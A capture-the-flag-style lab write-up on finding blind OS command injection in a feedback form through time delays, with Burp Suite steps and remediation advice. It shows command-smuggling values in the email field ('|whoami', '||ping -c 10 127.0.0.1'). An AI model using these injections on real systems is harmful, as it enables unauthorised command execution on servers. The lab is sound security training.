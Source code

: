 ## 🧪 Lab: Blind OS Command Injection with Time Delays  
**Level**: Practitioner  
**Date**: June 18, 2025  
**Goal**: Exploit a blind OS command injection vulnerability by using time delays to confirm successful command execution.

---

### 🧰 Tools  
- Burp Suite (Repeater / Interceptor)  
- Timing-based payloads (`ping`, `sleep`)

---

### 🧭 Steps

1. Intercept the feedback form request:
POST /feedback/submit

Example fields:
name=John
email=john@example.com
message=Hello!


2. Send the request to Repeater.

3. Attempt basic command injection (no output expected):

```
email=test@test.com|whoami
```

❌ No visible output → Possible blind injection.

4. Attempt time-based payload to detect blind injection:

```
email=aaa@test.com||ping+-c+10+127.0.0.1
```

✅ Server delays for ~10 seconds → Successful time-based confirmation.

---

### 💣 Payload

```
email=aaa@test.com||ping+-c+10+127.0.0.1
```

---

### 💡 Observations

- No command output = blind vulnerability.
- `||` ensures the injected command runs even if previous fails.
- Delay confirms command execution.
- Email field passed to backend shell → high-risk injection point.

---

### 🔒 Remediation

- Never pass unsanitized input to system shell.
- Use language-native mailing functions instead of shell commands.
- Apply strict input validation and allow-lists.
- Sanitize every field, even those assumed "safe" (like `email`).
- Monitor backend performance for unusual latency patterns.